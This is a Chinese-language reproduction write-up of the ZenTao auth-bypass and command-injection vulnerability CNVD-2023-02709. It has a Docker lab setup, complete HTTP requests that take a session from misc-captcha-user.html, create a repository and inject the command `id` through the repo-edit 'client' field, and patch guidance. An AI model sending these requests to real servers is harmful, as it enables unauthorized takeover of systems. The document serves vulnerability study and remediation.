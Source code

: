 # 禅道 misc-captcha-user.html 权限绕过&命令执行漏洞 CNVD-2023-02709

## 漏洞描述

禅道项目管理系统存在远程命令执行漏洞，该漏洞源于在认证过程中未正确退出程序，导致认证绕过，并且后台中有多种执⾏命令的⽅式，攻击者可利用该漏洞在目标服务器上注入任意命令，实现未授权接管服务器。

参考链接：

- https://www.zentao.net/book/zentaoprohelp/41.html
- https://www.zentao.net/book/zentaopms/405.html

## 漏洞影响

```
禅道 >=17.4，<=18.0.beta1（开源版）
禅道 >=7.4，<=8.0.beta1（企业版）
禅道 >=3.4，<=4.0.beta1（旗舰版）
```

## 环境搭建

[源码安装](https://github.com/easysoft/zentaopms/archive/refs/tags/zentaopms_18.0.beta1.zip)，或执行如下命令启动一个禅道 18.0.beta1 服务器：

```
docker compose up -d
```

docker-compose.yml

```
services:
  zentao:
    image: easysoft/zentao:18.0.beta1
    ports:
      - "8084:80"
    environment:
      - MYSQL_INTERNAL=true
    volumes:
      - /data/zentao:/data
```

服务启动后，访问 `http://your-ip:8084` 即可查看到安装页面，默认配置安装直至完成，数据库默认账号密码为 `root/123456`：

![](images/禅道%20misc-captcha-user.html%20权限绕过&命令执行漏洞%20CNVD-2023-02709/image-20250407085551929.png)

![](images/禅道%20misc-captcha-user.html%20权限绕过&命令执行漏洞%20CNVD-2023-02709/image-20250407101758458.png)

## 漏洞复现

查看版本号：

```
http://your-ip:8084/?mode=getconfig
-----
{"version":"18.0.beta1","requestType":"PATH_INFO","requestFix":"-","moduleVar":"m","methodVar":"f","viewVar":"t","sessionVar":"zentaosid","systemMode":"ALM","sprintConcept":"0","URAndSR":"0","maxUploadSize":"50M","sessionName":"zentaosid","sessionID":"k6s9ogaog0hv3b8jjg1vqr6ll4","random":503,"expiredTime":"1440","serverTime":1743992417,"rand":503}
```

![](images/禅道%20misc-captcha-user.html%20权限绕过&命令执行漏洞%20CNVD-2023-02709/image-20250407102034668.png)

请求 `http://your-ip:8084/misc-captcha-user.html` ，在 `Set-Cookie` 中获取 `zentaosid`。

创建并制定仓库为 GItlab：

```
POST /repo-create.html HTTP/1.1
Host: your-ip:8084
Cookie: zentaosid=69ld7c5h6n02k7i4iumt346den; lang=zh-cn; device=desktop; theme=default
Referer: http://your-ip:8084/index.php?m=user&f=login&referer=L2luZGV4LnBocD9tPXJlcG8mZj1jcmVhdGUmX3NpbmdsZT0xMjM=
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5408.146 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 154

product%5B%5D=1&SCM=Gitlab&name=poc&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=
```

![](images/禅道%20misc-captcha-user.html%20权限绕过&命令执行漏洞%20CNVD-2023-02709/image-20250407102230251.png)

命令执行：

```
POST /repo-edit-10000-10000.html HTTP/1.1
Host: your-ip:8084
Content-Type: application/x-www-form-urlencoded
Cookie: zentaosid=69ld7c5h6n02k7i4iumt346den; lang=zh-cn; device=desktop; theme=default
Referer: http://your-ip:8084/index.php?m=user&f=login&referer=L2luZGV4LnBocD9tPXJlcG8mZj1jcmVhdGUmX3NpbmdsZT0xMjM=
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5408.146 Safari/537.36
Content-Length: 112

SCM=Subversion&client=`id`
```

![](images/禅道%20misc-captcha-user.html%20权限绕过&命令执行漏洞%20CNVD-2023-02709/image-20250407102450815.png)

## 漏洞修复

[升级]() 至安全版本：

- 开源版升级至 18.0.beta2 及以上版本；
- 企业版升级至 8.0.bate2 及以上版本；
- 旗舰版升级至 4.0.bate2 及以上版本。

临时防护措施：

- 可在 `module/common/model.php` 文件中 `echo $endResponseException->getContent();` 后面加上 `exit();` 来修复权限绕过漏洞
